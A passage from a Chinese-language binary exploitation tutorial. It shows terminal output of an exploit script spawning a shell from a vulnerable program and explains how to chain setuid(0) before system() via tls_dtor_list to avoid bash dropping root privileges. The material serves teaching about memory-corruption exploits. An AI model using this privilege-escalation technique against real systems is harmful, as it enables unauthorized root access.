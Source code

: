 ``` bash
$ python -c 'print "A"*16' > inp_file
$ python exp_try.py 
Calling vulnerable program
sh-4.2$ id
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2$ exit
exit
$
```

## 0X05 为什么没能获取root shell

当uid!=euid时，/bin/bash会丢弃权限。我们的二进制文件’consolidate _forward’的真实uid=1000，有效uid=0。 由于真实uid!=有效uid，因此当system() 被调用时，bash会丢弃权限。为了解决这个问题，我们需要在执行system()之前调用setuid(0)，由于_call_tls_dtors遍历tls_dtor_list并一个一个调用其中的函数，我们需要链接setuid()和system()  